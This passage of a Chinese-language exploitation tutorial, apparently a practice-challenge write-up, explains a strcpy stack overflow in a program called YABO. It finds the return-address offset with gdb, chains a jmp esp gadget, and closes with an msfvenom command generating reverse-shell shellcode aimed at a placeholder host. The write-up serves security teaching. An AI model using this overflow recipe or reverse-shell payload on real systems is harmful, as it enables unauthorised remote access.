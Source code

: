 邏輯很簡單，先用一個 `malloc()` 得到的 `recv_buf` 接收 socket 傳過來的內容，如果沒有報錯的話才把內容複製一份到 stack 上的 local buffer。

看一下保護機制，發現什麼都沒開，表示我們可以用前一題的 shellcode 手法來 RCE，而且記憶體位置固定，所以如果有可以利用的地址或空間就能直接跳過去。

#[checksec](/img/posts/crystal/pwn-intro/yabo-checksec.png)

這裡沒有像 `puts()` 一樣可以寫無限多輸入的地方，那程式的弱點在哪？

答案是：記憶體內容被複製時的空間差異。

在最後 `strcpy(input_buffer,recv_buf);` 的地方，`recv_buf` 的內容被複製一份填到 `input_buffer` 裡，但是 `recv_buf` 的大小吃了 0xeff，比 `input_buffer` 的 1024 大很多，所以如果我們從 client 端送到程式裡的字串大於 1024 ，`strcpy()` 後就會覆蓋 stack 上的其他空間，最後成功蓋過 return address。

辨識弱點後就來嘗試蓋過 return address 找到會 segfault 的 offset 吧！

我們用 gdb 跑起 YABO，這次換一個方法判斷 offset。gdb 有個好用的指令 `pattern_create` 可以產生出一個任意長度的字串，確保任 4 個 byte 都是 unique 的。

#[create pattern](/img/posts/crystal/pwn-intro/yabo-patterncreate.png)

讓程式執行起來，然後從 client 端把剛剛產生的送進去，就會在 gdb 裡看到噴出 segfault。

#[segfault](/img/posts/crystal/pwn-intro/yabo-segfault.png)

在框起來的地方可以看到 segfault 是因為蓋過 return address 所以邏輯跑到了不包含指令的奇怪地方。我們可以繼續用 gdb 的指令 `pattern_offset` 來快速知道這個被覆蓋的位置是剛剛那一大堆字串的第幾個位元：

#[pattern offset](/img/posts/crystal/pwn-intro/yabo-patternoffset.png)

這下我們知道要 overflow 的形式就是 `'A'*1044 + retaddr`，只要把原本的 return address 換成我們寫的 shellcode 的位置就可以啦！

### where to put shellcode?

不過，我們的 shellcode 要放哪裡呢？因為存放輸入的地方在 stack 上，所以我們沒辦法事先知道 `input_buffer` 的位置，`recv_buf` 用的是 heap 空間同樣也沒辦法簡單觀察出來。

這裡就要介紹一個新的概念：gadget。

> 當我們沒辦法直接執行自己 inject 進去的指令時，就可以利用這個檔案裡面本來就有的程式片段來湊出我們想執行的功能，這些『片段』就稱為 gadget。

後續在講 ROP(Return Oriented Programming) 的部分時我們會更深入地提到如何建構出完整的 ROP chain 達成 RCE，這裡就先以解題用到的部分讓大家感受一下。

回到剛剛發生 segfault 的地方，如果你仔細看會發現此時的 `esp` 跟 `edx` 都指到的我們剛剛輸入的字串的一部分，也就是說這兩個暫存器裡面的值是我們可以控制的，所以如果我們把 shellcode 放在 `esp` 跟 `edx` 的位置，然後找到某個寫著 `jmp esp` 或 `jmp edx` 的 gadget，就能把 program control flow 導引到 shellcode 達成 RCE 啦！

#[esp](/img/posts/crystal/pwn-intro/yabo-esp.png)

更甚，你可以稍微檢視一下 `esp` 附近的記憶體空間，就會發現在我們剛剛 overflow 的 return address 的下一塊就緊接著  `esp`！只要能找到可用的 gadget 我們的拼圖就完成了，用 `'A'*1044 + gadget + shellcode` 就能 RCE！

#[esp offset](/img/posts/crystal/pwn-intro/yabo-espoffset.png)

找 gadget 可以用 `ROPgadget` 這個指令：

#[gadget](/img/posts/crystal/pwn-intro/yabo-gadget.png)

最後一步就是產生 shellcode 啦！這一次我們要的功能是開一個 reverse shell 的連線到我們的機器，可以用 msfvenom 來完成：
`msfvenom -p linux/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b '\x00\x0A\x0D' -f python -v sc –e x86/shikata_ga_nai`
